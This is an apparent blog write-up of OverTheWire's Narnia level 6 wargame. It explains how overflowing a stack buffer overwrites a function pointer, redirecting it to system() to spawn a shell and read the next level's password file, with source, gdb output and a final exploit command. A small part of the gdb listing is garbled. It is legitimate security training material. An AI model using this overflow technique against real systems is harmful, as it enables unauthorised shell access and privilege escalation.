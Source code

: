 ```yaml
---
layout: post
title: narnia-writeup-06
excerpt: "Writeup for the Narnia (L06)  wargame on overthewire.org."
categories: [writeup]
tags: [itsec, wargame]
---
```


[overthewire / narina](http://www.overthewire.org/wargames/narnia/)

## Level 6 ##

``` c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

extern char **environ;

// tired of fixing values...
// - morla
unsigned long get_sp(void) {
       __asm__("movl %esp,%eax\n\t"
               "and $0xff000000, %eax"
               );
}

int main(int argc, char *argv[]){
        char b1[8], b2[8];
        int  (*fp)(char *)=(int(*)(char *))&puts, i;

        if(argc!=3){ printf("%s b1 b2\n", argv[0]); exit(-1); }

        /* clear environ */
        for(i=0; environ[i] != NULL; i++)
                memset(environ[i], '\0', strlen(environ[i]));
        /* clear argz    */
        for(i=3; argv[i] != NULL; i++)
                memset(argv[i], '\0', strlen(argv[i]));

        strcpy(b1,argv[1]);
        strcpy(b2,argv[2]);
        //if(((unsigned long)fp & 0xff000000) == 0xff000000)
        if(((unsigned long)fp & 0xff000000) == get_sp())
                exit(-1);
        fp(b1);

        exit(1);
}
```

At first glance this is a little more complex. The `int  (*fp)(char *)=(int(*)(char *))&puts, i;` statement ends up doing two things - (1) creating a function pointer to `puts`, and also defining an integer `i`. The environ, and any extra args, are zero'ed out.

The `&` against `fp` excludes it from pointing to a particular address in memory (namely `0xff******`). The call to `fp(b1)` looks like our ticket out of here but it's been defined *after* `b1` and `b2`.
Let's see this through `gdb`.

``` shell
narnia6@narnia:/narnia$ gdb -q narnia6
Reading symbols from narnia6...(no debugging symbols found)...done.
gfter the `strcpy`. Let'sdb) set disassembly-flavor intel
(gdb) disass main
Dump of assembler code for function main:
   0x08048559 <+0>:     push   ebp
   0x0804855a <+1>:     mov    ebp,esp
   0x0804855c <+3>:     push   ebx
   0x0804855d <+4>:     and    esp,0xfffffff0
   0x08048560 <+7>:     sub    esp,0x30
   0x08048563 <+10>:    mov    DWORD PTR [esp+0x28],0x80483f0
   0x0804856b <+18>:    cmp    DWORD PTR [ebp+0x8],0x3
...
   0x0804867f <+294>:   mov    DWORD PTR [esp],eax
   0x08048682 <+297>:   call   0x80483e0 <strcpy@plt>
   0x08048687 <+302>:   mov    eax,DWORD PTR [esp+0x28]
   0x0804868b <+306>:   and    eax,0xff000000
   0x08048690 <+311>:   mov    ebx,eax
   0x08048692 <+313>:   call   0x804854d <get_sp>
...
(gdb) br *0x0804868b
Breakpoint 1 at 0x804868b
(gdb) x/bx 0x80483f0
0x80483f0 <puts@plt>:   0xff
```

break before the `&`, a see what the stack looks like then.

``` shell
(gdb) r DDDDDDD fffffff
Starting program: /narnia/narnia6 DDDDDDD fffffff

Breakpoint 1, 0x0804868b in main ()
gdb) x/14wx $esp
0xffffd6d0:     0xffffd6e8      0xffffd8f5      0x00000021      0x08048712
0xffffd6e0:     0x00000003      0xffffd7a4      0x66666666      0x00666666
0xffffd6f0:     0x44444444      0x00444444      0x080483f0      0x00000003
0xffffd700:     0x080486c0      0xf7fcb000
```
That's interesting - at `0xffffd6f8` is `fp`! Which we can therefore overwrite by overflowing `b1`.

The next question is what to overflow it with. We can't add an address on the stack due to the `&` check. Now if we could get `fp` to point to something like `system`, we might be in business.

It turns out that by importing `stdlib.h`, we're doing exactly that:

``` shell
(gdb) break system
Breakpoint 3 at 0xf7e61e70
```

With this in mind we can craft our payload:

``` shell
narnia6@narnia:/narnia$ ./narnia6 $(python -c 'print "/bin/sh;\x70\x1e\xe6\xf7 fffffff"')
$ whoami
narnia7
$ cat /etc/narnia_pass/narnia7
*** password ***``
```


